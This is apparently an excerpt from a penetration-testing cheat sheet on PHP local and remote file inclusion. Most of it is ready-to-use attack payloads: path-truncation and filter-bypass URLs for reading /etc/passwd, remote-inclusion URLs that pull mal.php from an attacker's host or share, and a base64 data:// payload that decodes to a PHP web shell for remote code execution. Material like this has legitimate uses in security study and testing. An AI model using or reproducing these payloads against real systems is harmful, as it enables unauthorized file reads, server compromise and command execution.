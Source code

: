 ```
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

Always try to **start** the path **with a fake directory** (a/).

**This vulnerability was corrected in PHP 5.3.**

### **Filter bypass tricks**

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

## Remote File Inclusion

In php this is disable by default because **`allow_url_include`** is **Off.** It must be **On** for it to work, and in that case you could include a PHP file from your server and get RCE:

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

If for some reason **`allow_url_include`** is **On**, but PHP is **filtering** access to external webpages, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), you could use for example the data protocol with base64 to decode a b64 PHP code and egt RCE:

{% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
In the previous code, the final `+.txt` was added because the attacker needed a string that ended in `.txt`, so the string ends with it and after the b64 decode that part will return just junk and the real PHP code will be included (and therefore, executed).
{% endhint %}
